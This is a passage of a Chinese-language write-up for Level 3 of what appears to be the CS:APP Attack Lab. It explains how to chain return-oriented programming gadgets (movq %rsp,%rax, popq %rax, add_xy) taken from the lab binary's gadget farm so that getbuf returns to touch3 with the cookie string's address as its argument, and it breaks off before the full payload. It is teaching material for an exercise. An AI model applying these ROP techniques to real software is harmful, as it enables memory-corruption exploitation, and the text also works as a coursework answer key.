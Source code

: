 ### Lv.3

目标是从getbuf返回到touch3，并传递cookie**字符串**作为参数。

为了避免后续调用对栈上的cookie字符串产生影响，除了使得栈指针指向的位置低于buf的内存空间以外，还可以把cookie串放在较高的位置。这样做的原因是可用的gadgets几乎无法对栈指针寄存器%rsp进行有效的修改操作（其实有一个popq %rsp，但是……你认真的？）。

为了获得cookie串的地址，我们需要栈的地址来进行推断。farm中提供了获取%rsp值的途径：

```
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq   
```

提取代码：

```asm
401a06:
  movq %rsp %rax # 48 89 e0
  ret            # c3
```

这样会把栈指针的值存进%rax中。

得到了某时刻的栈指针，我们还需要对其进行一个加法操作，加上一个在我们构造payload时确定的偏移量才能最终确定cookie串的地址。

显然，传入外部信息的途径只有payload。要从栈上的payload中获取这个偏移量，可用的gadget只有popq。

```
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
```

提取代码如下：

```asm
4019ab:
  popq %rax # 58
  nop       # 90
  ret       # c3
```

这段代码可以从栈中弹出一个值存进%rax。因为我们可以通过payload操纵栈的内容，所以相当于我们可以对%rax进行任意赋值。

下面的问题是如何进行加法操作。farm中有一个显然的加法函数：

```
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
```

为了向这个函数传参，我们需要将两个加数：某时刻的%rsp和偏移量，分别放进%rdi(param1)和%rsi(param2)。从这两个目标寄存器反推，在farm中进行查找，能够发现以下两个传送途径：

```
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
```
